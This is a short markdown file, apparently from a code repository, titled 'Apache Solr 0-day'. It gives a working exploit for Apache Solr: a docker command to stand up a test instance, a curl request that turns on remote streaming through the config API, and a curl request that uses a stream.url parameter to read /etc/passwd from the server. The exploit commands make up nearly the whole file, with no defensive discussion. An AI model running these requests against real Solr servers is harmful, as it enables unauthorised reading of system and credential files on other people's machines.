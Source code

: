 #Apache Solr 0-day

## Hacked by: https://mp.weixin.qq.com/s/3WuWUGO61gM0dBpwqTfenQ 
```
# stand up test on docker
docker run --name solrbear -d -p 8983:8983 -t solr

# Enable remote stream
TARGET="127.0.0.1:8983"
curl -d '{"set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}' http://$TARGET/solr/movie/config -H 'Content-type:application/json'

# Exploit

curl "http://$TARGET/solr/movie/debug/dump?param=ContentStreams" -F "stream.url=file:///etc/passwd"

```


